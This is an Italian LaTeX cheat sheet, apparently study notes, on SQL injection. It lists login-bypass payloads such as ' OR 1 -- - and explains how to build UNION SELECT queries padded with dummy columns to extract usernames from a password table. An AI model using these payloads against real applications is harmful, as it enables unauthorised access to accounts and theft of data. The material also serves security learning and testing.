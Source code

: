 \section{Payload per il bypass}
\textbf{Importante} il trattino finale server ad indicare la presenza di uno spazio bianco dopo l'inserimento di un commento.
\begin{itemize}
    \item \begin{verbatim} ' OR 1 -- - \end{verbatim}
    \item \begin{verbatim} ' OR 1 = 1 -- - \end{verbatim}
    \item \begin{verbatim} ' OR '1' = '1'\end{verbatim}
    \item \begin{verbatim} '=0-- -\end{verbatim}
    \item \begin{verbatim} utente'-- - \end{verbatim} 
\end{itemize}
Nota: utente deve essere l'username di un utente del sistema. Se il form che vogliamo bypassare ci mostra errori di sintassi nella query SQL dobbiamo aggiustare il nostro codice in modo da risolvere questi errori.


\section{Union injection}
L'operatore UNION può lavorare solo con SELECT che ritornano lo stesso numero di colonne. Nel caso in cui la query eseguita dal sistema ritorni più colonne di quelle della quey che vogliamo eseguire noi in UNION dobbiamo inserire dei dati fantocci.

Esempio: Supponiamo che la query eseguita dal sistema sia fatta così:
\begin{verbatim}
    SELECT name, price FROM products WHERE product_id = '1';
\end{verbatim}
se noi vogliamo eseguire in UNION la seguente query:
\begin{verbatim}
    SELECT username from password;
\end{verbatim}
il sistema darà un errore, poichè il numero delle colonne non è uguale. Per risolvere il problema dobbiamo inserire dei dati fantoccio come di seguito:
\begin{verbatim}
    SELECT name, price FROM products WHERE product_id = '1' 
    UNION
    SELECT username,2 from password;
\end{verbatim}
ovviamente dobbiamo inserire tanti dati fittizi quante sono le colonne ritornate dalla SELECT fatta dal sistema.

